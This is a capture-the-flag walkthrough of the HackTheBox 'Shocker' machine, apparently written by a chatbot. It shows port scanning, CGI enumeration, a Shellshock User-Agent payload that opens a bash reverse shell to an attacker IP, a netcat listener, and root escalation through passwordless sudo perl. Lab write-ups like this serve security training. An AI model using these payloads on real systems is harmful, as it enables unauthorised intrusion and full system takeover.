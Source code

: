 ## 🧨 HTB: Shocker Walkthrough

### 📦 Machine Info
- **Name**: Shocker
- **OS**: Linux (Ubuntu 16.04)
- **Difficulty**: Easy
- **Exploits**: CVE-2014-6271 (Shellshock)
- **Ports**: 80 (HTTP), 2222 (SSH)

---

### 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.56
nmap -p 80,2222 -sCV -oA scans/scripts 10.10.10.56
```
- Port 80: Apache/2.4.18 (Ubuntu)
- Port 2222: OpenSSH 7.2p2 (Ubuntu 16.04)

---

### 🌐 Web Enumeration
```bash
feroxbuster -u http://10.10.10.56 -x php,html -f -n
```
Discovered:
- `/cgi-bin/` directory (403 Forbidden)
- `/cgi-bin/user.sh` script (200 OK)

---

### 🐚 ShellShock (CVE-2014-6271) Exploit
Using Burp or curl to test ShellShock via `User-Agent`:
```http
User-Agent: () { :;}; echo; /bin/ping -c 1 <YOUR_IP>
```
For reverse shell:
```bash
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1
```
Start a listener:
```bash
nc -lvnp 443
```
Successful shell as:
```bash
shelly@Shocker:/usr/lib/cgi-bin$
```
Stabilize:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
```

---

### 🧼 Privilege Escalation
Check `sudo` permissions:
```bash
sudo -l
```
Output:
```bash
(root) NOPASSWD: /usr/bin/perl
```
Exploit:
```bash
sudo perl -e 'exec "/bin/bash"'
```
You now have a root shell:
```bash
root@Shocker:~# cat /root/root.txt
```

---

### 🛠 Beyond Root: Apache Config Quirk
Apache config snippet at `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:
```apache
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
```
The trailing slash is required. Without it, `/cgi-bin` returns 404.

To test:
```bash
curl http://10.10.10.56/cgi-bin/        # 200 OK
curl http://10.10.10.56/cgi-bin         # 404 Not Found
```

---

### 📚 Notes on ShellShock Behavior
- Only bash builtins (e.g. `echo`, `printf`) continue execution after initial eval.
- Binaries (e.g. `python3`, `perl`, etc.) often cause execution to halt.
- Chaining works best with pipes (`|`) rather than `;` or `&&`.


Let me know if you want walkthroughs for other boxes like Sunday, Sense, or Valentine 🧠💥


